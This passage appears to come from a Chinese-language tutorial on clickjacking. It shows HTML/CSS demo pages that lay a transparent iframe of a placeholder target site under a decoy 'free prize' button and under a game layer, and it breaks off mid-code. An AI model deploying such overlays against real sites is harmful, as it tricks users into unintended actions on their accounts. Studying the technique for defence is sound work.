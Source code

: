 ```html
        transform: translate(-50%, -50%);
        padding: 10px 20px;
        background-color: `#4CAF50;`
        color: white;
        border: none;
        cursor: pointer;
      }
    </style>
  </head>
  <body>
    <div class="wrapper">
      <!-- 目标网站的iframe -->
      <iframe class="target-iframe" src="https://target-website.com"></iframe>
      <!-- 诱饵内容 -->
      <div class="decoy-content">
        <h2>赢取免费奖品！</h2>
        <button class="decoy-button">点击领取</button>
      </div>
    </div>
  </body>
  </html>

````

### 2.2. 更复杂的攻击示例

```html
  <!DOCTYPE html>
  <html>
  <head>
    <title>Advanced Clickjacking Demo</title>
    <style>
      .game-container {
        position: relative;
        width: 800px;
        height: 600px;
        margin: 0 auto;
        border: 1px solid `#ccc;`
        overflow: hidden;
      }
      
      .game-layer {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        z-index: 2;
      }
      
      .target-frame {
        position: absolute;
        width: 1200px;
        height: 800px;
        top: -100px;
        left: -200px;
        opacity: 0;
        z-index: 1;
        transform: scale(0.8);
        pointer-events: auto;
      }
      
      .game-element {
```